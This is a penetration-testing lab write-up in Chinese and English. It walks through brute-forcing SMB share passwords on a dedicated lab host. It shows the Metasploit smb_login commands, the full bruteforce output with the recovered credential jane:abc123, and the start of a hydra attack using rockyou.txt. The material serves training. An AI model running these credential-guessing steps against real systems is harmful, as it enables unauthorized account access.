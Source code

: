 **指示：**
* 这个实验室是献给你的！此网络上没有其他用户 :)
* 开始实验室后，您将可以访问 Kali 实例的根终端
* 你的 Kali 有一个 IP 地址为 192.XYZ 的接口运行“ip addr”来知道 X 和 Y 的值。
* 目标机器应位于 IP 地址 192.XY3。
* 不要攻击位于 IP 地址 192.XY1 的网关

## 我自己的思路
What is the password of user “jane” required to access share “jane”? Use smb_login metasploit module with password wordlist /usr/share/wordlists/metasploit/unix_passwords.txt

`jane:abc123`

[SMB LOGIN CHECK](https://www.offensive-security.com/metasploit-unleashed/smb-login-check/)

```
msf5 auxiliary(scanner/smb/smb_login) > ifconfig
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.38.66.2  netmask 255.255.255.0  broadcast 192.38.66.255
        ether 02:42:c0:26:42:02  txqueuelen 0  (Ethernet)
```

```
msf5 auxiliary(scanner/smb/smb_login) > set RHOSTS 192.38.66.3
RHOSTS => 192.38.66.3
msf5 auxiliary(scanner/smb/smb_login) > set SMBUser jane
SMBUser => jane
msf5 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
PASS_FILE => /usr/share/wordlists/metasploit/unix_passwords.txt
msf5 auxiliary(scanner/smb/smb_login) > run

[*] 192.38.66.3:445       - 192.38.66.3:445 - Starting SMB login bruteforce
[-] 192.38.66.3:445       - 192.38.66.3:445 - Failed: '.\jane:admin',
[-] 192.38.66.3:445       - 192.38.66.3:445 - Failed: '.\jane:123456',
[-] 192.38.66.3:445       - 192.38.66.3:445 - Failed: '.\jane:12345',
[-] 192.38.66.3:445       - 192.38.66.3:445 - Failed: '.\jane:123456789',
[-] 192.38.66.3:445       - 192.38.66.3:445 - Failed: '.\jane:password',
[-] 192.38.66.3:445       - 192.38.66.3:445 - Failed: '.\jane:iloveyou',
[-] 192.38.66.3:445       - 192.38.66.3:445 - Failed: '.\jane:princess',
[-] 192.38.66.3:445       - 192.38.66.3:445 - Failed: '.\jane:1234567',
[-] 192.38.66.3:445       - 192.38.66.3:445 - Failed: '.\jane:12345678',
[+] 192.38.66.3:445       - 192.38.66.3:445 - Success: '.\jane:abc123'
[*] 192.38.66.3:445       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

What is the password of user “admin” required to access share “admin”? Use hydra with password wordlist: /usr/share/wordlists/rockyou.txt

`admin:password1`

```
root@attackdefense:/usr/share/wordlists# ls
dirb  dirbuster  dnsmap.txt  fasttrack.txt  fern-wifi  metasploit  nmap.lst  rockyou.txt.gz  sqlmap.txt  wfuzz
root@attackdefense:/usr/share/wordlists# gzip -d rockyou.txt.gz 
root@attackdefense:/usr/share/wordlists# ls
dirb  dirbuster  dnsmap.txt  fasttrack.txt  fern-wifi  metasploit  nmap.lst  rockyou.txt  sqlmap.txt  wfuzz
```
